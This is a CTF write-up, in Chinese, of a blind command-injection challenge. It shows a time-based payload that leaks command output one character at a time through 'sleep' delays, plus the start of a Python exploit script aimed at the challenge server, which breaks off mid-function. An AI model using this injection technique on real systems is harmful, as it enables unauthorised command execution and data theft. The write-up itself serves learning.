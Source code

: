 输入a和a;发现结果不同,猜测分号被过滤,或者在引号里面

输入#无任何显示,输入不在引号内

`0'#和0"#均无回显`,

过滤名单:`'',"",#;`

猜测php代码

`echo system('ps -aux | grep '.$u)`



最后还是没做出来,去看别人的wp了

有两种解法

#### 解法1

我刚刚的那些猜测考虑的不够全面,以上结果还有一种可能就是过滤输出。

执行a;sleep 5发现延迟5秒，确定是过滤输出而不是过滤那些字符

接下来就是和sql盲注一样的原理

payload:123;a=\`ls\`;b="~";if [ "${a:3:1}"x == "$b"x ]; then sleep 5 ;fi;

构造payload(写shell语言)遇到的坑:

1. if 和方括号之间要有空格
2. $a == $b 之间也要有空格
3. 让字符串为空返回假,非空进行比较用

123;a=\`ls\`;b="~";if [ "${a:3:1}"x == "$b"x ]; then sleep 5 ;fi;

否则,字符串为空也会继续比较

附上exp:

```python
import requests
cookies = dict(PHPSESSID='uep9a3ja59naqj5rnuihbi5l62')

def guess(index,gue,post):
    data={'c':post}
    try:
        print(post)
        res=requests.post("http://123.206.31.85:49165/index.php",data=data,timeout=3,cookies=cookies)
        if 'login' in res:
            print("cookie失效")
        #input()
        print("第"+index+"个字符不是"+gue)
        return 0
    except requests.exceptions.ReadTimeout:
        print("第"+index+"个字符是"+gue)
        return 1
    except requests.exceptions.ConnectTimeout:
        print("第"+index+"个字符是"+gue)
        return 1
    except urllib3.exceptions.MaxRetryError:
        print("第"+index+"个字符是"+gue)
        return 1
    except urllib3.exceptions.ConnectTimeoutError:
        print("第"+index+"个字符是"+gue)
        return 1
def execc(command):
    post1="123;a=`"+command
    post2='`;b="'
    gue=""
    post3='";if [ "${a:'
```